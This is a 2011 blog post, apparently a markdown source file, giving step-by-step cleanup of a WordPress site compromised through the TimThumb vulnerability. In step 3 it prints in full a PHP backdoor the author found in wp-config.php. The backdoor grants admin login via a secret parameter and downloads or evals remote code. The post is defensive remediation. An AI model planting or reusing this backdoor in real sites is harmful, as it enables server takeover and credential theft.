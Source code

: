 ```yaml
---
title: Warning - Something's Not Right Here
date: 2011-09-30 12:00
author: Blake Embrey
template: article.jade
---
```


![Chrome is broken :/](http://d.pr/i/Ap8y+)

About two days ago, I received a warning from Google saying my website has been exploited and hacked. Of course, the emails they sent I never received, so I didn’t realise I had an issue until about an hour ago. My first reaction was OMG, WTF! I knew it most likely had something to do with the recent TimThumb exploit, but I didn’t even know my theme had TimThumb included. I also looked at the Google diagnostic repost which it linked me to, which I found the malware related to `counter-wordpress.com`.

First of all, I would advise running the script found at [Sucuri](http://blog.sucuri.net/2011/08/timthumb-php-security-vulnerability-just-the-tip-of-the-iceberg.html). Then, scan your site using the [Sucuri Site Scanner](http://sitecheck.sucuri.net/scanner/) to find out which pages they have exploited and how. This is the best little site I have found for this, and I would definitely bookmark it for future refernce as well if I were you.

Extremely quickly, I jumped to action. This is the exact steps I took and you can take too, to remove the exploits from your code:

1. Delete the following files:

```
wp-admin/upd.php
wp-content/upd.php
```

2. Log into WordPress admin and reinstall your WordPress version. We are focusing on these three files:

```
wp-settings.php
wp-includes/js/jquery/jquery.js
wp-includes/js/l10n.js
```

3. Open "`wp-config.php`" and look for anything that seems out of place. In mine, I found a script which appears to harvest login credentials/cookies, which found on the 2000 or so line. Above and a few thousand lines below were all blank:

```
if (isset($_GET['pingnow'])&& isset($_GET['pass'])){
if ($_GET['pass'] == '19ca14e7ea6328a42e0eb13d585e4c22'){
if ($_GET['pingnow']== 'login'){
$user_login = 'admin';
$user = get_userdatabylogin($user_login);
$user_id = $user->ID;
wp_set_current_user($user_id, $user_login);
wp_set_auth_cookie($user_id);
do_action('wp_login', $user_login);
}
if (($_GET['pingnow']== 'exec')&&(isset($_GET['file']))){
$ch = curl_init($_GET['file']);
$fnm = md5(rand(0,100)).'.php';
$fp = fopen($fnm, "w");
curl_setopt($ch, CURLOPT_FILE, $fp);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_TIMEOUT, 5);
curl_exec($ch);
curl_close($ch);
fclose($fp);
echo "<SCRIPT LANGUAGE="JavaScript">location.href='$fnm';</SCRIPT>";
}
if (($_GET['pingnow']== 'eval')&&(isset($_GET['file']))){
$ch = curl_init($_GET['file']);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_TIMEOUT, 5);
$re = curl_exec($ch);
curl_close($ch);
eval($re);
}}}
```

4. In your theme, look for anywhere the TimThumb script may be storing the cached files. These are generally along the lines of:

```
wp-content/themes/theme-name/scripts/cache/external_{MD5Hash}.php
wp-content/themes/theme-name/temp/cache/external_{MD5Hash}.php
```

If you found anything like the above, delete it straight away. If you're not sure, delete every file that isn’t an image.

5. Replace `timthumb.php` with the latest version found at `http://timthumb.googlecode.com/svn/trunk/timthumb.php`.

6. Change your MySQL and login password and update wp-config.php to correspond with the update.

7. Change the secret keys in `wp-config.php`.

8. Clear your browsers cache and cookies.

9. Empty any page caching plugins you may have enabled to push the updates through to your visitors.

Throughout this, I also found a botting script and some spam black hat links. Make sure you scan your site using the [Sucuri Site Scanner](http://sitecheck.sucuri.net/scanner/) once again to make sure you removed all the exploits. When you are sure you have removed everything, submit your site to Google for review. This can be done in the `Diagnostics -> Malware` tab of your Google Webmaster account. To keep up with anymore potential exploits, I would recommend following their fantastic blog found at [blog.sucuri.net](http://blog.sucuri.net/).